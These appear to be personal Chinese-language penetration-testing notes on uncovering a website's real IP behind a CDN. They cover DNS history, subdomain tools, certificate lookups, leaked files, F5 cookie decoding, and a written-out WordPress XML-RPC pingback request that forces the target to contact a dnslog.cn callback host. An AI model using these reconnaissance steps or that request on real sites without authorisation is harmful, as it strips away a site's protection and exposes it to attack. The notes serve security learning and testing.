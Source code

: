 # CDN绕过

## 1、利用历史记录

> 通过查询 DNS 记录 / IP 历史记录 / 子域名 等数据记录

很多网站只给关键的域名或者主域名做了 CDN，其下很多子域名没有使用 CDN 服务，所以我们可 以通过查询目标网站的根域名、二级域名、三级域名甚至多级子域名来获得真实IP。不过有时候查 出来的并不是真实 IP，可能仅仅做了 A 记录 ，这种情况下可以继续扫描同 C 段的 IP 和端口，然后 逐个探测是否为目标网站。 在网站使用 CDN 服务之前，解析的是真实IP，所以可以查询 DNS 历史记录，看是否能探测到使用 CDN 之前的 IP 。 DNS 解析记录中重点关注 TXT 记录和 SPF 记录，是否有泄露真实IP。

### 1.1 在线查询平台

https://ipw.cn/dns/  DNS记录参考

https://www.ip138.com/  IP历史

https://chaziyu.com/  子域名

微步Threatbook：https://x.threatbook.cn/ 

Viewdns：https://viewdns.info/

Dnsdb：https://www.dnsdb.io/zh-cn/

### 1.2 网络空间测绘搜索引擎

Censys https://censys.io/

FOFA https://fofa.info

Shodan https://www.shodan.io/

Zoomeye https://www.zoomeye.org/ 

hunter https://hunter.qianxin.com/

quake https://quake.360.net/quake/ 

### 1.3 工具和脚本

SubDomainsBrute https://github.com/lijiejie/subDomainsBrute 

ESD https://github.com/FeeiCN/ESD

Layer 子域名挖掘机 https://github.com/euphrat1ca/LayerDomainFinder 

Xray https://github.com/chaitin/xray （subdomain 子域名发掘功能）

**重点：oneforall  https://github.com/shmilylty/OneForAll**

## 2、通过Email

> 具体没试过

一般大型网站自己部署架设的邮件服务器如果向外部用户发送邮件的话，如果中间未经任何数据处理和防护措施，那么邮件头部的源码中会包含此邮件服务器的真实 IP 地址。

小技巧：通过发送邮件给一个不存在的邮箱地址，由于该用户不存在，所以发送将失败，并且还会收到一个包含发送该电子邮件的服务器的真实IP通知。

## 3、通过 SSL 证书

证书颁发机构 (CA) 必须将他们发布的每个 SSL/TLS 证书发布到公共日志中，SSL/TLS 证书通常包 含域名、子域名和电子邮件地址。因此可以利用 SSL/TLS 证书来发现目标站点的真实 IP 地址。

CDN 运营商在给服务器提供保护的同时，也会与其服务器进行加密通信（ssl），这时当服务器的 443 端口接入域名时也会在 443 端口暴露其证书，我们通过证书比对便可发现网站的真实IP地址。

## 4、通过海外DNS查询及多点ping 

针对国内市场用户，部分的 CDN 服务商并没有做海外市场的 CDN ，所以可以通过寻找小众、冷门 的海外 DNS 查询，看是否能获得真实 IP 。

``` 
nslookup target.com <海外 DNS 地址>
```

多点ping推荐站长之家：https://ping.chinaz.com

## 5、通过敏感文件泄露

例如：

- 服务器日志文件
- 探针文件，例如 phpinfo 
- 网站备份压缩文件 .
- DS_Store 
- .hg 
- .git
- SVN
- Web.xml

主要靠字典

## 6、通过变更的域名

> （查询whois信息） 

很多网站在发展的过程中，会更换域名，比如京东以前的域名是 360buy.com ，后来斥巨资购买了 jd.com 。 网站在更换新域名时，如果将 CDN 部署到新的域名上，而之前的域名由于没过期，可能未使用 CDN，因此可以直接获得服务器 IP。

## 7、 通过APP移动端应用

如果网站存在 APP，可以通过抓包分析其APP的数据流量，看是否能找到网站真实IP地址，记得关注APP的历史版本 。

##  8、通过 F5 LTM 解码

> 第一次听说这东西

LTM 是将所有的应用请求分配到多个节点服务器上。提高业务的处理能力，也就是负载均衡。 当服务器使用F5 LTM做负载均衡时，通过对 set-cookie 关键字的解码，可以获取服务器真实 ip 地址。 例如：

``` 
Set-Cookie: BIGipServerpool_9.29_5229=605532106.22012.0000
```

- 先把第一小节的十进制数，即 605532106 取出来
- 将其转为十六进制数 2417afca
- 接着从后至前，取四个字节出来:CA AF 17 24 
- 最后依次转为十进制数 202.175.23.36，即是服务器的真实ip地址。

## 9、通过 CDN 标头特征值

> 感觉太麻烦了，以后再说

很多网站启用CDN后，配置了拒绝直接访问真实IP ，可以通过匹配特征标头的方法，去缩小范围。

## 10、通过 XML-RPC PINGBACK 通信

> wordpress才好用

在 WordPress 的早期版本中，默认情况下已关闭 XML-RPC，但是从3.5版本开始，默认情况下开 启。 XML-RPC 支持 trackback 和 pingback。

```http
POST /xmlrpc.php HTTP/1.1
Host: domain.com
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML,
like Gecko) Chrome/70.0.3538.110 Safari/537.36
Accept:
text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;
q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 323
<?xml version="1.0" encoding="UTF-8"?>
<methodCall>
<methodName>pingback.ping</methodName>
<params>
<param>
<value><string>http://2vbis4.dnslog.cn</string></value>
</param>
<param>
<value><string>https://domain.com/</string></value>
</param>
</params>
</methodCall
```

刷新一下dnslog，可以获得了真实服务器IP。

## 11、通过 favicon.ico 哈希特征

资产测绘平台都支持

## 12、通过网页源码特征值

> 资产测绘平台，但是不会

